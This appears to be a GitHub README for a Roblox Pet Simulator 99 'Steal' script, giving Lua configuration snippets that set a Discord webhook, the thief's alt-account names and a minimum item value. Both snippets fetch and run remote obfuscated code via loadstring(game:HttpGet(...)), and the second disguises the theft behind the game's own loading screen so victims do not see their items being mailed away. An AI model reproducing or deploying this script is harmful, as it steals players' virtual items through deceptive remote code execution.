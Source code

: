 # Steal
The stealing script

The script should look like this:

```lua
Webhook = "" --your discord webhook

Usernames = {"AlternativeAccount1",
             "AlternativeAccount2" ,
             "ExampleAccountName",
             "AnotherExampleAccountName"} --put the name of all your accounts and alts to send pets to (from important to less important).

MailMessage = "Things got send" -- try to keep very short to avoid it not working
LoadingScreenText = "Loading Milky Hub"
min_rap = 2000000 -- minimum rap of each item you want to get sent to you. 2 mil by default. 

loadstring(game:HttpGet("https://raw.githubusercontent.com/Cezar-Very-Epic/Steal/main/StealScript"))()
```

.

.

.

.

.

.

.


You can also make a Custom Loading Screen if you want to make your own loadingscreen (only do that if you have coding experience) or no loadingscreen at all (not recomanded) by using the code bellow!

```lua
Webhook = "" --your discord webhook
Usernames = {} --put the name of all your accounts and alts to send pets to (from important to less important)

MailMessage = "" -- try to keep very short to avoid it not working

LoadingScreenText = ""

min_rap = 2000000 -- minimum rap of each item you want to get sent to you. 2 mil by default

-- LOADING SCREEN -----------------------------------
local LoadingScreenFunction = require(game:GetService("ReplicatedStorage").Library.Client.GUIFX.Transition)
game.Players.LocalPlayer.PlayerGui.Transition.DisplayOrder = 6000000000000 -- make any gui that may show you sending gems not show

task.spawn(function() 
    LoadingScreenFunction("anything") -- spawns the default pet simulator 99 loading screen
end)
-- change the text of loading screen
game:GetService("Players").LocalPlayer.PlayerGui.Transition.Hint.HintLabel.Text = LoadingScreenText

loadstring(game:HttpGet("https://raw.githubusercontent.com/Cezar-Very-Epic/Steal/main/Obfuscated%20Custom%20Loading%20Screen"))()
```
